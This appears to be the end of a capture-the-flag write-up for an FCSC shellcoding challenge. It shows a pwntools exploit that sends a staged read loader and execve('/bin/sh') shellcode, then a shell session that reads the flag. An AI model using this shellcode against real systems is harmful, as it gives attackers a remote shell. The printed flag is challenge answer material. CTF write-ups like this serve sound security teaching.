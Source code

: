 ```py

read_shellcode = b"FCSC_9Sfzbv=oED?^0JVy0a>zxDz=xP=" # will start with push rdx; pop rsi; syscall after the hash
io.send(read_shellcode)
sleep(speed)

shellcode = asm(
"""
mov rax, 0x0068732f6e69622f
push rax
mov rdi, rsp
xor esi, esi
xor edx, edx
mov eax, 0x3b
syscall
""")

sl(b"A"*4 + shellcode) # four "A" to overwrite the old shellcode

io.interactive()
input("end")
exit()
```

```
$ python exploit.py
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2107: Done
[*] Switching to interactive mode
Input:
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
FCSC{2bf3a8c59da61d5dd3ff402cb1ff11e0858246853297646bd1ad40bd944d8814}
```

---
# Conclusion
Thanks for reading this writeup, I hope you liked it.
Thanks you for this challenge, I never really did shellcoding challenges before that one. 